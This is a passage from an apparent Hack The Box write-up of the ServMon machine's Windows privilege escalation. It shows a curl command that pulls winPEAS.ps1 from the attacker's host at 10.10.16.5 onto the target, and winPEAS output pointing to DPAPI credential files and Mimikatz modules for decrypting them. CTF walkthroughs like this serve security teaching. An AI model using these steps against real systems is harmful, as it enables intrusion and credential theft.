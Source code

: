 ### Privilege Escalation using winPEAS.bat

So our usual `impacket-smbserver` will not work here because upon doing `net use \\10.10.16.5\a` on the Target, I got the following error.
```
PS C:\tmp> net use \\10.10.16.5\a
System error 384 has occurred.

You can't connect to the file share because it's not secure. This share requires the obsolete SMB1 protocol, which is unsafe and could expose your system to attack.    
Your system requires SMB2 or higher. For more info on resolving this issue, see: https://go.microsoft.com/fwlink/?linkid=852747
```

However, Curl and Wget is installed. Let's download the file using curl.

```
curl -o winPEAS.ps1 http://10.10.16.5/winPEAS.ps1
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 78634  100 78634    0     0  78634      0  0:00:01 --:--:--  0:00:01  140k

nadine@SERVMON C:\tmp>dir 
 Volume in drive C has no label.                   
 Volume Serial Number is 20C1-47A1                 
                                                   
 Directory of C:\tmp                               
                                                   
08/15/2024  09:21 PM    <DIR>          .           
08/15/2024  09:21 PM    <DIR>          ..          
08/15/2024  09:21 PM            78,634 winPEAS.ps1 
               1 File(s)         78,634 bytes      
               2 Dir(s)   6,086,201,344 bytes free 
```

Executing winPEAS.ps1 and couple of important findings
```
=========|| Checking for DPAPI Cred Master Keys
Use the Mimikatz 'dpapi::cred' module with appropriate /masterkey to decrypt
You can also extract many DPAPI masterkeys from memory with the Mimikatz 'sekurlsa::dpapi' module
https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi

    Directory: C:\Users\nadine\AppData\Local\Microsoft\Credentials
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a-hs-        2/28/2022   7:04 PM          11088 DFBE70A7E5CC19A398EBF1B96859CE5D
```

### NSClient++ - Privilege Escalation 

So after digging into the box, I had to look at the question on HTB and one of the question was as follows
`There's an unusual third part application on the system. What's the name of a very this software?`
